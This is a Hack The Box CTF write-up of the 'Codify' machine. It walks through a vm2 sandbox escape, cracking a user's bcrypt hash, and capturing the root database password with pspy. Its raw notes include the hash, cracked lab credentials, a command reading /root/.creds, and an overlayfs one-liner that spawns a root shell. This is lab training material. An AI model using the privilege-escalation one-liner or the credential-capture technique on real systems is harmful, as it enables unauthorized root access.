 # Information
- CTF Name: Codify
- CTF Level: Easy
- CTF Description: 
- Date: 4/4/2024
- Platform: HTB
- Category: Machine

# Findings

## External
### Enumeration
- I did a simple nmap scan and got 3 ports open `22`,`80` and `3000`
![](https://i.imgur.com/Ka3D1EL.png)
- There is Same Website on both Port 80 and 3000, so let use the port 80.
- The website is a node.js Code editor and runner and it uses a library called `vm2` to sandbox the code runner from the system, this will prevent attacks from executing system command on the machine/server.
	- ![](https://i.imgur.com/jVtoEf3.png)
- The Problem is this site is using a vulnerable version of `vm2` the version is `3.9.16`
- ![](https://i.imgur.com/BUhr4iu.png)
- This Exploit will Escape some Restricted codes by the library 
	- child_process
	- fs
- I Started my `netcat` listener
	- ![](https://i.imgur.com/cjSLPAA.png)
- Then I Executed the vm2 exploit ![](https://i.imgur.com/2mN8qzj.png)
### Gaining Access 
- I Got access the the `svc` user. Hurray!!
- ![](https://i.imgur.com/yx2k48z.png)
- It is really Easy foothold took 5min i think
## Internal
### Enumeration
- I tried to check special folders and got a specials and i got the web hosted Directories inside `/var/www` i try to check all the files and i got the file called `tickets.db`. 
	- Good For us, this database file contains the username and password hash for the user `joshua`.
![](https://i.imgur.com/1NT3hgS.png)

### Gaining Access
- I Copied the hash and tried to crack it with john.
	- ![](https://i.imgur.com/Ryj5psw.png)
- Well Done, we got the password for the user `joshua`
- ![](https://i.imgur.com/GoLANVA.png)
- We are In to the User `joshua`!
- Then we got the `user.txt` flag.
### Maintaining Access
- On the 1st i tried to footprint the system and saw that the kernel version is old and i thought it can be exploited with dirtypipe and i spent some min on it, then i jumped to another findings.
- While Enumerating the new account files and folders, i got some eye catchy file `/opt/scripts/mysql-backup.sh`
```
#!/bin/bash                                                                                                                                                                                                                                   
DB_USER="root"                                           
DB_PASS=$(/usr/bin/cat /root/.creds)                         
BACKUP_DIR="/var/backups/mysql"                                
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  

/usr/bin/echo  
if [[ $DB_PASS == $USER_PASS ]]; then  
        /usr/bin/echo "Password confirmed!"   
else                           
        /usr/bin/echo "Password confirmation failed!"     
        exit 1   
fi   


/usr/bin/mkdir -p "$BACKUP_DIR" 
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)") 

for db in $databases; do    
    /usr/bin/echo "Backing up database: $db"    
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"  
done 
```


- On this Code, is trying to fetch the DB_PASS from the root .creds file and passing it to the database  variable down on the code, so the thing i thought it, so.... if that happens there will be some process at the background so, if i started 2 ssh shells and i started a process viewer tools like pspy64 and run the script on the another screen i will get the password. so i tried that and guess what.. it worked!!!!!!
- 
	![](https://i.imgur.com/ZueySeO.png)
	- ![](https://i.imgur.com/1NPAhxa.png)
- Then I logged in to this user with `ssh root@codify.htb` and this password then boom. We got the root flag.
# Random Notes
- Codify uses sandboxing technology to run your code
- Whitelisted module
	- - url
	- crypto
	- util
	- events
	- assert
	- stream
	- path
	- os
	- zlib
- BlackListed
	- child_process
	- fs


- some exploit
	
- ![](https://i.imgur.com/2mN8qzj.png)

- ![](https://i.imgur.com/6RBogtk.png)
- `joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`
 -
![](https://i.imgur.com/fTqC6Q0.png)

- Sessions: `G3U9SHG29S872HA028DH278D9178D90A782GH`
![](https://i.imgur.com/KRxswW7.png)


/opt/scripts/mysql-backup.sh
mysql  Ver 8.0.35-0ubuntu0.22.04.1 for Linux on x86_64 ((Ubuntu))
/usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -p -e SHOW DATABASES;
/var/backups/mysql

/usr/bin/cat /root/.creds
Creds
josua : spongebob1

```bash fold
#!/bin/bash                                                                                                                                                                                                                                   
DB_USER="root"                                           
DB_PASS=$(/usr/bin/cat /root/.creds)                         
BACKUP_DIR="/var/backups/mysql"                                
read -s -p "Enter MySQL password for $DB_USER: " USER_PASS  

/usr/bin/echo  
if [[ $DB_PASS == $USER_PASS ]]; then  
        /usr/bin/echo "Password confirmed!"   
else                           
        /usr/bin/echo "Password confirmation failed!"     
        exit 1   
fi   


/usr/bin/mkdir -p "$BACKUP_DIR" 
databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)") 

for db in $databases; do    
    /usr/bin/echo "Backing up database: $db"    
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"  
done 
```

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'


/srv/.viminfo

mysql  Ver 8.0.35-0ubuntu0.22.04.1 for Linux on x86_64 ((Ubuntu))


kljh12k3jhaskjh12kjh3

![](https://i.imgur.com/bgNj742.png)
